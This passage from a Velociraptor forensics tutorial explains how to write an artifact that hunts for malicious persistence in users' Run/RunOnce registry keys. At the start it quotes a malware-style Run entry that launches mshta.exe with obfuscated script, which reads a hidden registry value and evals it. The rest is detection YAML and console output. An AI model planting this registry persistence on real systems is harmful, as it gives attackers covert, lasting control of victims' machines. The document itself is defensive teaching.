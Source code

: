 ``` {.sourceCode .console}
Key: "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
Value: "C:\Windows\system32\mshta.exe"
Data:
  about:<script>c1hop="X642N10";R3I=new%20ActiveXObject("WScript.Shell");
  QR3iroUf="I7pL7";k9To7P=R3I.RegRead("HKCU\\software\\bkzlq\\zsdnhepyzs");
  J7UuF1n="Q2LnLxas";eval(k9To7P);JUe5wz3O="zSfmLod";</script>
```

Defining the Artifact.
======================

We create a directory called \"artifacts\" then create a new file inside
it called powershell\_persistence.yaml. Velociraptor artifacts are just
YAML files that can be loaded at runtime using the \--definitions flag.

Every artifact has a name, by convention the name is separated into its
major categories. We will call ours Windows.Persistence.Powershell:

``` {.sourceCode .yaml}
name: Windows.Persistence.Powershell
```

This is the minimum required for Velociraptor to identify it. We can see
a listing of all artifacts Velociraptor knows about using the
\"artifacts list\" command:

``` {.sourceCode .console}
F:\>velociraptor.exe --definitions artifacts artifacts list
INFO:2018/09/28 07:59:40 Loaded 34 built in artifacts
Linux.Applications.Chrome.Extensions
Linux.Applications.Chrome.Extensions.Upload
…
Windows.Persistence.Powershell
...
Windows.Sys.Users
```

We can collect the artifact simply by using the \"artifacts collect\"
command:

``` {.sourceCode .console}
F:\>velociraptor.exe --definitions artifacts artifacts collect Windows.Persistence.Powershell
INFO:2018/09/28 20:01:32 Loaded 34 built in artifacts
```

Ok so Velociraptor can load and collect this new artifact, but as yet it
does nothing! We need to think about what exactly we want to collect.

We know we want to search for all values in the Run/RunOnce hive of all
the users. Let\'s first see if we can retrieve all the values using a
glob:

``` {.sourceCode .yaml}
name: Windows.Persistence.Powershell
parameters:
  - name: keyGlob
    default: "HKEY_USERS\\*\\Software\\Microsoft\\Windows\
    \\CurrentVersion\\{Run,RunOnce}\\*"
sources:
 - precondition:
    SELECT OS from info() where OS = "windows"
   queries:
   - |
    SELECT FullPath from glob(
       globs=keyGlob,
       accessor="reg"
    )
```
